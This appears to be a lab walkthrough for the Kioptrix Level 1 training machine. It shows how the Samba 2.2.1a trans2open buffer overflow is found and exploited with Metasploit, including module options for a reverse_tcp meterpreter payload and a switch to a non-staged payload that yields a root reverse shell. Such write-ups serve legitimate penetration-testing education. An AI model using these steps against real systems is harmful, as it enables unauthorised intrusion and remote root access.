






# Exploit SMB

## Exploit Kioptrix Level 1

### Attacking SMB

From Enumeration:

- Port 139 (SMB)
- 139/tcp open netbios-ssn Samba smbd (workgroup: MYGROUP)
- Unix (Samba 2.2.1a)

Research:

- Google search for Samba 2.2.1a exploit
- Exploit DB:
  - [Exploit 10](https://www.exploit-db.com/exploits/10)
  - [Exploit 7](https://www.exploit-db.com/exploits/7)
- Rapid7 (Metasploit):
  - [Rapid7 Exploit - Linux/Samba/Trans2open](https://www.rapid7.com/db/modules/exploit/linux/samba/trans2open/)

Note: The exploit targets a buffer overflow vulnerability found in Samba versions 2.2.0 to 2.2.8. It specifically exploits x86 Linux systems that do not have the "noexec stack" option set. Please note that some older versions of RedHat may not be vulnerable if they do not allow anonymous access to IPC. Confirm whether anonymous access to IPC is available.

---

#### Victim Information

- Victim IP: 192.168.247.129
- Attacker IP: 192.168.247.128

---
---
SEARCHSPLOIT <query>

searchsploit samba 2.2

Probable a 'trans2open' attack

BOOT UP METASPLOIT

Search for 'trans2open' inside Metasploit. During enumeration, a Rapid7 link was identified.

During enumeration, it was identified that the system was running RedHat, indicating a Linux system. Choose option 1 for Linux x86.

View options.

Set RHOSTS (victim IP).

Check if the IP was set.

Module options (exploit/linux/samba/trans2open):

Name              Current Setting  Required  Description
----              ---------------  --------  -----------
RHOSTS            192.168.247.129  yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
RPORT             139              yes       The target port (TCP)

Payload options (linux/x86/meterpreter/reverse_tcp):

Name              Current Setting  Required  Description
----              ---------------  --------  -----------
LHOST             192.168.247.128  yes       The listen address (an interface may be specified)
LPORT             4444             yes       The listen port

Exploit target:

Id  Name
--  ----
0   Samba 2.2.x - Bruteforce

NOTE >>> Default meterpreter ports will probably get picked up...

Run or exploit

Sessions dying. Time to cancel and check options.

Second time checking options after payload did not work. Meterpreter offers payload options.

Current payload is staged. See the ///

Change payload to non-staged. Check with options.

Exploit!

Reverse shell with root access!!!!

